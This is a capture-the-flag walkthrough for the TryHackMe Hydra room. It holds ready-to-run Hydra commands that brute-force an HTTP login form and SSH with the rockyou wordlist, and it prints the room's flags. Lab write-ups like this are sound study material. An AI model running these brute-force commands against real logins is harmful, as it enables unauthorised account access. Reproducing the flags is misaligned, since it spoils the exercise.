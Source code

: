 ```yaml
---
title:"Hydra"
layout:"default"
categories:[tools ,pentesting ]
tags:[sheetcheat ,hydra, http , protocol, brute force, tools]
---
```


# Hydra

🔐 TryHackMe – Hydra Room Summary

Exploit HTTP and SSH login interfaces with Hydra, a parallelized password cracking tool.

---

🎯 Learning Objectives

Understand what Hydra is and how it operates

Perform brute‑force attacks against web login forms and SSH

Craft retry patterns to detect failed attempts and successes

---

🧐 Overview

Hydra is a fast network logon cracker that supports multiple protocols. It’s frequently used to brute‑force credentials via HTTP‑login POST forms and SSH sessions.

---

🔍 Task 1: Brute‑Force Web Login (HTTP POST)

1. Recon: Scan target (e.g., port 80 for HTTP form).
2. Identify the login form via browser dev tools (Network tab).
3. Observe the POST request format and error message for failed login ("incorrect" or similar).
4. Run Hydra:

hydra -l molly -P /usr/share/wordlists/rockyou.txt \
<target‑IP> http-post-form \
'/login:username=^USER^&password=^PASS^:F=incorrect'

1. Hydra finds the username molly and a matching password (e.g. sunshine), and reveals Flag 1, e.g.:

THM{2673a7dd116de68e85c48ec0b1f2612e}

---

🔐 Task 2: Brute‑Force SSH Login

1. With the same credentials list and user molly, run:

hydra -l molly -P /usr/share/wordlists/rockyou.txt \
<target‑IP> -t 4 ssh

1. Hydra discovers the SSH password (e.g. butterfly).
2. SSH into the box:

ssh molly@<target‑IP>

1. Locate flag2.txt and extract Flag 2, e.g.:

THM{c8eeb0468febbadea859baeb33b2541b}

---

⚙️ Usage Recommendations & Notes

Always inspect the login flow in browser dev tools to capture the POST format and error message.

Hydra syntax for HTTP: ^USER^ and ^PASS^ placeholders.

The failure condition (F=) matching is case-sensitive and must match the page response for invalid credentials.

SSH brute-force via Hydra is straightforward compared to web forms.

Flag capture is typically inside flag.txt files or shown on the web interface.

---

✅ Quick Reference Table

Task	Command Snippet

HTTP Brute‑force	hydra -l molly -P rockyou.txt <IP> http-post-form '/login:username=^USER^&password=^PASS^:F=incorrect'
SSH Brute‑force	hydra -l molly -P rockyou.txt <IP> -t 4 ssh
SSH into target	ssh molly@<IP>
Discover first flag	Web response page or session after login
Discover second flag	cat flag2.txt on SSH session

---

🧠 Key Takeaways

Hydra is effective for both web form and SSH password brute-forcing.

Matching the exact failure message (F= parameter) is vital for success.

Recon steps (Nmap, dev tools inspection) are essential before launching Hydra attacks.

Always verify discovered credentials by manually testing login or SSH access.

Strong passwords and rate limiting help defend against brute-force attacks.
